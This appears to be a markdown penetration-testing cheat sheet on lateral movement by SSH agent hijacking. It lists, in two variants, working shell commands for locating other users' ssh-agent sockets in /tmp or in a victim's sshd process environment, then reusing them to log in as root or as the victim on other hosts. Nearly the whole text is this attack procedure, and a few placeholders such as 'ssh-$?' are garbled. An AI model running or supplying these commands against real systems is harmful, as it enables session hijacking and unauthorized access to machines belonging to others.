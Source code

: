 ### <--- Lateral Movement ---> ###

#### SSH Hijack: Abusing SSH Agents to intercept the "SSO Like Token"  ####

**NOTE: https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/**

##### Check logins #####

```w```

```cd /var/logs```

```grep -R -i root . -a```

```cd /etc/ssh```

```nano ssh_config```

**Is 'ForwardAgent == yes'?**

```cd /tmp```

*NOTE: Remove existing ssh-* files from grepping to remove active sessions*

```watch -n 1 "ls | grep -v 'ssh-$?\|ssh-$?'"```

*NOTE:  Wait for new event to appear*

```cd ssh-new-event```

```ls```

```SSH_AUTH_SOCK=agent-$? ssh root@target -p 2222```

*NOTE: Try without port two. This example is copied from Ippsec.*

#### SSH Hijack 2 ####

*NOTE: https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/*

##### Attacker finds the SSHd process of the victim #####

```ps uax|grep sshd```
 
##### Attacker looks for the SSH_AUTH_SOCK on victim's environment variables #####

```grep SSH_AUTH_SOCK /proc/<pid>/environ```
 
##### Attacker hijack's victim's ssh-agent socket #####

```SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l```
 
##### Attacker can login to remote systems as the victim #####

```ssh remote_system -l victim```

